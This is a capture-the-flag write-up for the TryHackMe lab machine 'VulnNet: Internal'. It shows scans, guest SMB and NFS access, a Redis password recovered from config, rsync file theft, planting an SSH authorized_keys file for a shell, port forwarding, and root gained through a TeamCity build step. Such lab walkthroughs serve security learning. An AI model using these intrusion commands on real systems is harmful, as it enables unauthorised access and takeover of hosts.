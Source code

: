 # VulnNet: Internal

This is a write-up for the machine VulnNet: Internal located at: [https://tryhackme.com/room/vulnnetinternal](https://tryhackme.com/room/vulnnetinternal)

I ran an nmap scan

```c
nmap -T4 -A 10.10.98.192 -oN nmap_output.txt
```

This is the output I got:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-23 17:37 EDT
Nmap scan report for 10.10.98.192
Host is up (0.20s latency).
Not shown: 993 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp  open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34713/tcp   mountd
|   100005  1,2,3      45887/tcp6  mountd
|   100005  1,2,3      46635/udp6  mountd
|   100005  1,2,3      55619/udp   mountd
|   100021  1,3,4      43989/tcp6  nlockmgr
|   100021  1,3,4      46185/tcp   nlockmgr
|   100021  1,3,4      55225/udp   nlockmgr
|   100021  1,3,4      55609/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp  open     rsync       (protocol version 31)
2049/tcp open     nfs_acl     3 (RPC #100227)
9090/tcp filtered zeus-admin
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-09-23T23:38:16+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-23T21:38:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.51 seconds
```

I then ran **smbmap -H \<IP>**, and got the following output:

```c
[+] Guest session       IP: 10.10.98.192:445    Name: 10.10.98.192                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        shares                                                  READ ONLY       VulnNet Business Shares
        IPC$                                                    NO ACCESS       IPC Service (vulnnet-internal server (Samba, Ubuntu))
```

I then ran **smbclient \\\\\\\10.10.98.192\\\shares**, and got the following output:

```c
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb  2 04:20:09 2021
  ..                                  D        0  Tue Feb  2 04:28:11 2021
  temp                                D        0  Sat Feb  6 06:45:10 2021
  data                                D        0  Tue Feb  2 04:27:33 2021

                11309648 blocks of size 1024. 3278156 blocks available
```

In the **temp** folder, there was the following file:

```c
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 06:45:10 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  services.txt                        N       38  Sat Feb  6 06:45:09 2021
```

In the **data** folder, there was the following file:

```c
smb: \data\> ls
  .                                   D        0  Tue Feb  2 04:27:33 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  data.txt                            N       48  Tue Feb  2 04:21:18 2021
  business-req.txt                    N      190  Tue Feb  2 04:27:33 2021
```

Looking through the files, I found the flag for the services.txt:

![](<../../.gitbook/assets/image (207).png>)

I then ran a **metasploit** module **auxiliary/scanner/rsync/modules\_list**. This is what I got from the result from it:

![](<../../.gitbook/assets/image (215).png>)

I then read [this write-up](https://cyberrat.medium.com/vulnnet-internal-tryhackeme-cad6ccb9ad54) and realized that I did not use the **showmount** command. I then followed the write-up to run **showmeant -e \<IP>**. I then got the following:

![](<../../.gitbook/assets/image (211).png>)

I then mounted the system to my machine:

![](<../../.gitbook/assets/image (214).png>)

Viewing through the files I came across some sort of password in the redis.conf file:

![](<../../.gitbook/assets/image (206).png>)

I then followed the same write-up to understand my next step. This was to use **redis-cli** in order to connect to the database and see what is there using the pasword we found earlier. I ran **redis-cli -h 10.10.98.192 -a \<requirepass\_from\_earlier>** in order to login to the database. I then was able to find the flag for internal:

![](<../../.gitbook/assets/image (205).png>)

When I ran **LRANGE authlist 1 20**, I got the following:

![](<../../.gitbook/assets/image (199).png>)

The three values were the exact same, and seemed to be base64 encoded. I decoded it online and got the following:

![](<../../.gitbook/assets/image (212).png>)

So now we have to connect to rsync with this password:

![](<../../.gitbook/assets/image (202).png>)

There is a sys-internal directory that I ave to find a way to get access into. I followed the aforementioned write-up and ran the following commands (tweaked to work for me):

```c
mkdir local_storage
rsync -av rsync://rsync-connect@10.10.98.192/files local_storage
```

This allowed me to download the folder to my local drive. In that directory, I found the user.txt file:

![](<../../.gitbook/assets/image (201).png>)

I got stuck here, so I had to view the write-up again. I was meant to create an SSH keypair and upload it using rsync. So I ran the following commands:

```c
ssh-keygen -t rsa 
cat internals.pub | tee authorized_keys && chmod 600 authorized_keys
rsync -av authorized_keys rsync://rsync-connect@10.10.98.192/files/sys-internal/.ssh  
```

For the previous step, I ended up getting stuck, and found [this write-up](https://muzec0318.github.io/posts/vulnet.html) that actually clarified the situation for me. This same write-up led me to run **ss** **-tulpn** to find out what ports were open. I used the same write-up to figure out we have to do port forwarding. In order to do this, I ran the following command:

```c
ssh -i internals -L 8111:localhost:8111 sys-internal@10.10.98.192 
```

Visiting `localhost:8111` led me to the following page:

![](<../../.gitbook/assets/image (204).png>)

I then searched for the word **token** in the whole filesystem to find a token for the following webpage:

![](<../../.gitbook/assets/image (210).png>)

The second to last authentication token worked for me! I then created a new project:

![](<../../.gitbook/assets/image (213).png>)

I then created a build config:

![](<../../.gitbook/assets/image (200).png>)

I then went to Build Steps and followed a bit of [this write-up](https://infosecwriteups.com/tryhackme-writeup-vulnet-internal-9abe74955f32) for this part. I following the following image:&#x20;

![](<../../.gitbook/assets/image (203).png>)

I then ran the script from the choice on top, and when I went back to my previous shell, I ran **/bin/bash -p**, and I was able to get root:

![](<../../.gitbook/assets/image (209).png>)

I wan then able to get the root flag:

![](<../../.gitbook/assets/image (208).png>)
